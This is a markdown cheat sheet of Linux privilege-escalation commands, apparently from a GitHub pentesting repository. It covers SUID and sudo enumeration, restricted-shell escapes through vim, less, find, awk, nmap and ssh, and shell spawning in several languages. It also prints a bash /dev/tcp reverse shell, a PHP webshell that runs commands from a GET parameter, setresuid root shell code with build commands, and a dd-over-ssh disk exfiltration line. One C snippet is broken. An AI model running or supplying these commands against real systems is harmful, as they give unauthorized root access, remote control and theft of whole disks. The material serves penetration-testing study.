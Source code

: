 Side note: 
check for /bin/dash
Bash likes to drop setuid permissions but Dash will not

# Search for Commands that run as Root:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```


## Restricted Shells: rbash, rksh, rzsh, lshell and rssh
1. try ls, cd, pwd, echo commands [if these commands are restricted, 
   an error will show up with the type of restricted shell we are in (most of the time, this is rbash)]
2. press tab twice to see what commands are available.
  a. if "ls" is avaiable list binaries in /bin, /usr/bin, /usr/local/bin
  b. echo /usr/bin/*  [use globbing to list directory contents]
  c. important to check for operators and escape characters such as the following:
  ```
     > >> < | & ; : ' " `
  ```
3. Try commands wrapped
```
(whoami)
{whoami}
```

## Shell Execution:
```
find /home -exec sh -i \;
```
## use text editors vim, vi, nano, pico, ed
```
:!/bin/sh, !/bin/zsh, try other shells!?!?
:shell
:set shell=/bin/sh
:set shell=/bin/bash:shell
:!bash
```

## use pagers less, more, or programs like man that use less or more by default
```
!/bin/sh, !/bin/zsh, try other shells!?!?
!/bin/bash
!bash
```

## find
use find command’s exec parameter for code execution (returns shell)
```
sudo find /home -exec sh -i \;
find /var/log -name messages -exec /bin/bash -i \;
```

## use awk command
```
awk 'BEGIN {system("/bin/sh")}'
```

## use expect command
```
expect
spwan sh
sh
```

## use tee command to create a script in scenarios where text editors aren't available
```
echo "bash -i" | tee script.sh
```

## use nmap command
```
nmap --interactive
nmap> !sh
```

## use ssh with the following options to escape restricted shell 
```
ssh user@IP -t "bash --noprofile"
ssh user@IP -t "/bin/sh"
```

## Reverse Shell:

```
bash -i >& /dev/tcp/<ip-address>/<port> 0>&1
```

# Programming Language:
## Python:
```
import os; os.system("/bin/sh")
```
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
```
import os; os.system("/bin/bash")
```
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## PHP:
```
exec("sh -i");
```

## PHP Webshell:
```
<?php
  $command = $_GET['cmd'];
  echo system($command);
?>
```

## Perl:
```
exec "/bin/sh";
```
```
perl —e 'exec "/bin/sh";'
```
```
exec "/bin/bash";
```
```
perl —e 'exec "/bin/bash";'
```

## Ruby:
```
exec "/bin/sh"
```
```
ruby -e 'exec "/bin/sh"'
```
```
exec "/bin/bash"
```
```
ruby -e 'exec "/bin/bash"'
```

## IRB:
```
exec "/bin/sh"
```

## Lua:
```
os.execute("/bin/sh")
```

## C:
```
#include <stdio.h>

int main(int argc, char **argv)
{
	int status = system(bash);
	return 0;
}
```
```
int main(void){
    setresuid(0, 0, 0);
    system("/bin/bash");
}
```
```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
```

### Building the SUID Shell binary
```
gcc -o suid suid.c 
gcc -o exploit exploit.c
``` 

### For 32 bit:
```
gcc -m32 -o suid suid.c  
gcc -m32 exploit.c -o exploit
```

### Compile Windows .exe on Linux
Build / compile windows exploits on Linux, resulting in a .exe file.
```
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```


# Encrypted exfil channel:
```
dd if=/dev/<disk-to-copy> bs=65536 conv=noerror, sync | ssh -C <user>@<ip-address> "cat > /tmp/image.dd"
```



